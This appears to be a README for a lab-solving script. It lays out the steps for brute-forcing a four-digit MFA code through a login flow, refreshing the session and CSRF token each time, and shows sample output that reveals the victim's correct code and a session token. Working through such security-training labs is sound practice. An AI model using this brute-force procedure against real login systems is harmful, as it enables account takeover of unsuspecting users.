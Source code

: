 # Hack Steps

1. GET /login page and extract the session from cookie header and csrf token from the body
2. POST /login with valid credentials, extracted session and the csrf token
3. Obtain the new session
4. GET /login2 with the new session
5. Extract csrf token from the body of /login2
6. POST the mfa-code with the new session and the new extracted csrf token
7. Repeat the process with all possbile numbers

# Run Script

1. change the URL of the lab
2. Start script

```
~$ cargo run
```

# Expected Output

```
[#] Brute forcing the mfa-code of carlos..
[*] Elapsed: 19 minutes || Failed: 1 || (587/10000) 0588 => Incorrect
✅ Correct code: 0589
✅ New session: 2xAatFfbH1ezWx6fvMtM9R0zE62I7MnP
Use this session in your browser to login as carlos

✅ Finished in: 19 minutes

[!] Failed codes count: 1 
[!] Failed codes: ["0316"]
```
